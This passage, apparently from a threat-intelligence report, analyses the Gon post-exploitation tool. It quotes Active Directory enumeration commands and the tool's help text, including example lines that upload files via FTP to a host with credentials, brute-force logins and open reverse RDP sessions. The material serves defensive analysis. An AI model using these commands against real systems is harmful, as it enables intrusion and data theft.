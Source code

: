 The Gon tool was also first observed in May 2019 and contains a variety of functionality. The majority of this functionality indicates that it would likely be used as a post-exploitation tool to help an actor carry out activities after gaining access to a system. 
Gon provides an actor with the ability to scan for open ports on remote systems, upload and download files, take screenshots, find other systems on the network, run commands on remote systems using WMI or PSEXEC and create an RDP session using the plink utility. Gon can be used as a command-line utility or as a desktop application using the provided GUI. Using the GUI, Gon can use the “dsquery” tool embedded within it to issue the following commands to obtain computer, user and group names from an active directory:
DS.exe computer -limit 0 > computer_DS.txt
DS.exe user -limit 0 > Users_DS.txt
DS.exe group -limit 0 > Group_DS.txt
When using the command-line, an actor can easily see what functionality exists with Gon as the "-help" command provides a usage output that resembles the following:





 ___v0.2_               
               /  _____/  ____   ____  
              /   \  ___ /  _ \ /    \ 
              \    \_\  (  <_> )   |  \
               \______  /\____/|___|  /
                      \/            \/  

-Up[-l Path.txt] FOLDER_OR_FILE -C Host;User;Pass [-KWF](kill when Finish) [-DEL](delete when item upload)
[+] is ftp upload 1_ex=-up my_folder_or_File -KWF -DEL -C server.com;admin;123 
2_ex=-up-l my_Path.txt -C server.com;admin;123

-Screen[-up][-s count,seconds] -C Host;User;Pass
[+] Print Screen -up is upload to ftp and delete the file. -s will repate and will upload -C Cerdential For Upload via FTP

-Remote [-P] [Host;user;pass;Wdir] [Code]
[+] wmic to host;user;-P is psexecmode ,pass and save it in Wdir\Thumb.dll

-Download[-s] URL
[+] http://www.URL , is -s Https will download in same directory

-Scan[-v IP-To][-l Path.txt] [setp] [-A]
[+] Result will be in P.txt,-A is advanced scan but slower, step is number to bruteforce MAX 230 -> ex = -Scan-v 192.168.?.? 8

-Bruter Path.txt username;pass{?} [+][-]
[+] Result will be in N.txt , [+] Write netuse IP,[-] Write nont-netuse IP, Tip = Username & Password can be read from file

-Rev[-clean][-loop] [V_ip] [port_to_Exit] [server;port]
[+] RDP Revers on loop on every 10 min and with SYSTEM

-Globe[-v p,o-r,t,s] [server]
[+] Scan Global Port 123,443,80,81,23,21,22,20,110,25, v is Custom port 

-Done
[+] self Distruct
